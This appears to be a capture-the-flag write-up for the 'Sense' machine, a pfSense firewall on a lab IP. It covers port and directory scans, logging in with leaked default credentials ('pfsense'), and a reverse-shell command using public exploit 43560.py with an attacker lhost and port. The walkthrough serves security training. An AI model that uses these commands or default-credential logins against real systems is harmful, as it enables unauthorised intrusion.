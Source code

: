 # Sense

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.96 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 07:48 EDT
Nmap scan report for 10.129.85.96
Host is up (0.0088s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

2 ports that are open.

### pfSense Creds + RCE

Visiting the IP address redirects us to port 443 where pfSense is running:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run a `dirbuster` scan to see what else is on the port because we have no credentials right now. We can include all the common extensions using `-e php,html,txt` to see all possible files on the machine.

```bash
$ dirbuster -u https://10.129.85.96/ -t 20 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,txt,html
<TRUNCATED>
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
FIle Found: /system-users.txt - 200
```

One of them is called `system-users.txt`. The file contains this:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

So the username is Rohit and the password is the default password. In this case, the default password for this software is `pfsense`. We can then login and see the version running:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

This is an outdated version of pfSense running, and it is vulnerable to an RCE exploit.

```
$ searchsploit pfsense 2.1.3
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injec | php/webapps/43560.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can download this exploit and use it to get a reverse shell.

```bash
python3 43560.py --rhost 10.129.85.96 --lhost 10.10.14.13 --lport 4444 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (32) (1) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
